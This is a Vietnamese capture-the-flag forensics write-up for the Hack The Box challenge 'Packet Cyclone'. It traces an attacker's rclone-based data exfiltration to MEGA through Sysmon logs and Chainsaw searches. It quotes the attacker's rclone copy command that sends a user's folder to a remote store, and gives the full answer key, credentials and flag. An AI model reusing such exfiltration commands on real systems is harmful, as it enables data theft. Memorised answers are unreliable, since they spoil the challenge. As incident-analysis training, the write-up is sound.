








# Challenge Packet Cyclone

## 1. Đầu vào challenge

Đầu vào challenge cung cấp các file log `.evtx` và `2` file `.yaml`.

Trước tiên, thử convert file `Microsoft-Windows-Sysmon%4Operational.evtx` sang CSV để dễ quan sát hơn. Đồng thời mở thêm `2` file `.yaml` thì thấy dấu vết liên quan tới `rclone`, cho thấy attacker nhiều khả năng đã dùng công cụ này trong quá trình exfiltration.



---

## 2. What is the email of the attacker used for the exfiltration process? (for example: name@email.com)

Sau khi đã nghi ngờ `rclone`, tiếp tục filter theo chuỗi `rclone.exe` trong file CSV để xem các command line liên quan.

Từ đó thấy được tài khoản email mà attacker dùng để cấu hình quá trình exfiltration.



**Đáp án là:** `majmeret@protonmail.com`

---

## 3. What is the password of the attacker used for the exfiltration process? (for example: password123)

Ngay trong kết quả ở câu trước cũng đã thấy luôn mật khẩu mà attacker sử dụng khi cấu hình `rclone`.



**Đáp án là:** `FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1qsU3EjhoKQw0rEoQqHyI`

---

## 4. What is the Cloud storage provider used by the attacker? (for example: cloud)

Vẫn từ cùng dòng lệnh cấu hình đó, có thể xác định được cloud storage provider mà attacker sử dụng là `MEGA`.



**Đáp án là:** `mega`

---

## 5. What is the ID of the process used by the attackers to configure their tool? (for example: 1337)

Tiếp tục nhìn vào event liên quan tới quá trình cấu hình `rclone`, xác định được process ID của tiến trình mà attacker dùng để cấu hình công cụ.



**Đáp án là:** `3820`

---

## 6. What is the name of the folder the attacker exfiltrated; provide the full path. (for example: C:\Users\user\folder)

Để nhìn rõ hơn các event liên quan tới `rclone.exe`, có thể dùng `Chainsaw` để search trực tiếp trong file `Microsoft-Windows-Sysmon%4Operational.evtx` rồi xuất kết quả ra JSON cho dễ đọc hơn:

```bash
chainsaw search rclone.exe Microsoft-Windows-Sysmon%4Operational.evtx --json | jq > ../rclone.json
```

Sau đó mở file output ra và thấy event chứa lệnh thực thi `rclone.exe`. Ở trường `CommandLine` xuất hiện lệnh:

```text
"C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe" copy C:\Users\Wade\Desktop\Relic_location\ remote:exfiltration -v
```

Từ lệnh này xác định được folder mà attacker đã exfiltrate là `C:\Users\Wade\Desktop\Relic_location`



**Đáp án là:** `C:\Users\Wade\Desktop\Relic_location`

---

## 7. What is the name of the folder the attacker exfiltrated the files to? (for example: exfil_folder)

Ngay trong event ở câu trước, trường `CommandLine` cho thấy đích lưu trữ trên cloud là:

```text
remote:exfiltration
```

Trong đó, `exfiltration` chính là tên thư mục mà attacker dùng để chứa dữ liệu đã exfiltrate.



**Đáp án là:** `exfiltration`

---

## 8. Flag

Cuối cùng thu được flag là:

```text
HTB{Rcl0n3_1s_n0t_s0_inn0c3nt_4ft3r_4ll}
```



---

## 9. Bảng câu hỏi - đáp án

| Câu hỏi | Đáp án |
|---|---|
| What is the email of the attacker used for the exfiltration process? | `majmeret@protonmail.com` |
| What is the password of the attacker used for the exfiltration process? | `FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1qsU3EjhoKQw0rEoQqHyI` |
| What is the Cloud storage provider used by the attacker? | `mega` |
| What is the ID of the process used by the attackers to configure their tool? | `3820` |
| What is the name of the folder the attacker exfiltrated; provide the full path. | `C:\Users\Wade\Desktop\Relic_location` |
| What is the name of the folder the attacker exfiltrated the files to? | `exfiltration` |
